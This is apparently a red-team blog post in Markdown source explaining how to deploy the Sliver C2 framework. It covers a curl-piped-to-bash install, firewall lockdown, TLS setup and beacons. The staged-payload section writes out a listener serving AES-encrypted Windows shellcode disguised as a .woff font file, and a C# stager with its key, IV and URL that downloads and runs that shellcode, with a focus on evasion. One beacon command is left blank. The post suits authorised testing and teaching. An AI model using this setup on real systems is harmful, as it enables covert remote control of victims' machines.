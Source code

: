 ```yaml
---
title: "Sliver C2 Deployment for Red Team Engagements"
date: 2023-07-17
categories: redteam
published: false
---
```


[Sliver](https://github.com/BishopFox/sliver/) has been a popular open-source C2 in recent years and has had continuous improvements since its release. It's cross-platform and easy to setup which were both appealing to me when I first started using it. I wanted to learn how to setup Sliver as a C2 server for red teams so I decided to document it for my own reference and anyone else interested. Here's what we'll cover:

- Sliver installation
- Connecting and Setup
- Beacons
- Staged Payloads

---------------------------------------------

## Sliver Installation

Sliver documentation: [https://github.com/BishopFox/sliver/wiki](https://github.com/BishopFox/sliver/wiki)

Spin up a Linux droplet/EC2/whatever to host your C2 server. Run the initial updates and install MinGW to allow compilation of shellcode/staged/DLL payloads:
```
apt update -y
apt update --fix-missing -y
apt install git mingw-w64 net-tools -y
```

Once the system is updated, Sliver is __very__ easy to install using the setup script ([reference](https://github.com/BishopFox/sliver/#getting-started)): <br />
`curl https://sliver.sh/install|sudo bash` <br />
This will automatically start Sliver running in [Daemon mode](https://github.com/BishopFox/sliver/wiki/Daemon-Mode). 

You can then create a client config on your Sliver server to allow "multiplayer" connections: <br />
`./sliver-server operator --name sliver-user --lhost "<SLIVER-IP>" --save /root/sliver-user.cfg`.<br />
Download the output "**sliver-user.cfg**" file to your local host using SCP or whatever file transfer app you like which you will use to connect to the server using a Sliver client.

__IMPORTANT STEP:__ *Don't forget to lock down your C2 server firewalls so that only you can access it. You can do this through firewalls in your cloud console, UFW rules, IPTables, etc. You will also need to open it up to your redirector (in our case over HTTPS) but more on this later.*

I created some Terraform scripts to help automate this whole process found in my [GitHub repository here](https://github.com/wsummerhill/Automation-Scripts/tree/main/Sliver-C2-deployment_DigitalOcean).

## Connecting and Setup

On your test system, download the Sliver client for your specific OS from the [link here](https://github.com/BishopFox/sliver/releases). Import your **sliver-user.cfg** config file from the previous steps and connect to the Sliver server with the following commands:<br />
```
./sliver-client_OS import ./sliver-user.cfg  # Import client
./sliver-client_OS  # Connect to Sliver C2
Connecting to <SLIVER-IP>:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain assist
[*] Server v1.5.40 - c17c37857e54f0fa202c01cbd00a99a85f5f9f49
[*] Welcome to the sliver shell, please type 'help' for options

sliver >
```

For our red team setup, we're going to use an HTTPS redirector pointing to your C2 server. We also need to make sure that the Sliver server is locked down using firewall rules by making it accessible ONLY to your own IP addresses and the soruce IPs of your redirector(s) open over port 443 to be the most opsec-safe. BE SURE that your Sliver server is NOT directly accessible over the Internet to anyone.<br />
To do this with UFW rules, it would look something like this:<br />
```
# Allow your IPs
ufw allow from <YOUR-IP>
ufw allow from <YOUR-IP-2>
# Allow your redirectors over HTTPS
ufw allow from <REDIRECTOR-IP> to any port 443
ufw allow from <REDIRECTOR-IP> to any port 443
ufw allow from <REDIRECTOR-IP> to any port 443
# Start firewall
ufw enable # Select Y at prompt
```

## Redirectors 

We're not actually going to cover HTTPS redirector setup as there are many different blogs and techniques to do this (i.e. [how-to-guides](https://howto.thec2matrix.com/attack-infrastructure/redirectors), [AWS lambda redirectors](https://blog.xpnsec.com/aws-lambda-redirector/), [bluescreenofjeff](https://bluescreenofjeff.com/2018-04-12-https-payload-and-c2-redirectors/), etc.). So for the rest of this post we'll assume you already have an HTTPS redirector setup!

Moving on... Now we'll have to start an HTTPS listener in Sliver which only accepts connectsion from our redirector host. But first, we'll need to setup an SSL certificate with a public/private key (without encryption) to have a valid SSL/TLS connection. You could use a self-signed one (using the `--self-signed` option), but for red teams we would much rather have a valid/signed cert for our HTTPS connections to be less suspicious.

To create your SSL/TLS certificate for HTTPS communications with your listener, you can use whatever service/app you prefer. LetsEncrypt is probably the most common method, and recently I started using AWS Certificate Manager (ACM) certs.<br />
To automate this with LetsEncrypt, I modified one of RedSiege's script for setting up a cert Cobalt Strike and made it compatible with Sliver. [Link HERE](https://github.com/wsummerhill/Automation-Scripts/blob/main/HttpsGenericC2DoneRight.sh).<br />
Drop the `HttpsGenericC2DoneRight.sh` script on your Sliver teamserver and run it with Sudo privileges. Enter in your C2 domain (with an A record pointing to your C2 server) and any private key password:
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/fd02dfbc-dc55-4ad4-83d9-1bea28e1a12e)

If everything works properly, the script should output you a domain store file, cert.pem and privkey.pem files in your /root directory. Copy these files to your local system with your Sliver client installed.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/a57e5b26-eee7-4556-aa19-5fa3b8307204)

## Beacons

Sliver C2 implants communicate in 2 different ways: **Beacons** or **Sessions**. For red teams and better opsec we will always be using Beacons which use asynchronous communications that periodically check-in at a certain time interval. The alternative would be Sessions which use an established interactive mode connection (noisy and poor opsec). <br />
Beacons function the same way Cobalt Strike communication channels work using asynchronous connections. The one downside of Sliver is that it doesn't have a sleep mask like Cobalt Strike does, meaning the Beacon code won't be obfuscated/encrypted in-memory while sleeping between connections. 

To create a new Beacon using your HTTPS redirector (you previously set this up right?), use the following command:
``


## Staged Payloads

Useful links:
- https://github.com/BishopFox/sliver/wiki/Stagers
- https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/

To create staged payloads, we'll need to create two things: a **profile** and a **staged listener**. The profile will act as a configuration for our stage 2 payoad, and the staged listener will be a stage 1 listener/payload

First, to create a **profile**, use the following command which is similar to how we previously createed Windows shellcode. This will create the profile 'https-win':<br />
`profiles new beacon --http https://sliver-redirector.com --os windows --format shellcode --evasion https-win`
Type `profiles and you should see your 'https-win' profile created.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/20dd9587-79df-40c7-bb91-dd7c7bd8aee2)

Next, we need to create a staged listener that links to our profile. In this case, I obfuscated the staged payload using gzip compression and AES encryption. <br />
`stage-listener --url http://sliver-domain:80 --profile https-win --compress gzip --aes-encrypt-key "LgUmeMnmUpRrCBRB" --aes-encrypt-iv "nStxRW5o6TNHcKBx"`
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/ae2aa7e6-9e9d-4812-8d53-681651c30608)

**Note:** *If you're using your Sliver C2 server to host the stage 1 payload, you need to set it up on a different protocol/port as your HTTPS listener. Alternatively, you can set it up, download the shellcode then host it anywhere else for better opsec (i.e. a cloud provider). If you host it elsewhere, don't forget to kill your original staged listener!*

Once you create the staged listener, your stage 2 payload should be available at [http://sliver-domain:80/AnythingHere.woff](http://sliver-domain:80/AnythingHere.woff). Note the ".woff" extension to download your shellcode. This is due to the "stager_file_extension" in your Sliver config ([reference](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#implant_config)). You could change this to any other extension you like in the config.<br />

Now, we need to create a stage 1 payload to reach out to download and decrypt/decode our stage 2 payload then execute it. This should be as custom as possible for a red team, but a good starting point is the provided C# template [here in the Sliver documentation](https://github.com/BishopFox/sliver/wiki/Stagers#encrypted-stage-example) (note for this payload you'll have to add gzip compression if you chose that option in your `stage-listener` command).

For the stadnard template, update the C# payloads variables to fit your url, AES key, and AES IV at the top of the script. 
```
...
namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "LgUmeMnmUpRrCBRB";
        private static string AESIV = "nStxRW5o6TNHcKBx";
        private static string url = "http://sliver-domain:80/text-fonts.woff";
        ...
```
Compile the C# payload with csc.exe in to an EXE for testing purposes: `C:\windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /platform:x64 /out:Sliver-payload.exe Sliver_staged-payload.cs`

Run the output payload `./Sliver-payload.exe` and you should see a new beacon pop up in Sliver!
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/12d8f0df-a5d2-440f-972f-cd091a38b738)

Of course for a red team, we want to further customize the stage 1 payload to make it as unique and opsec-safe as possible. We aren't going to cover that here as this is just a proof-of-concept, but get as creative as possible!
<br />
Hope you all enjoyed the Sliver setup!
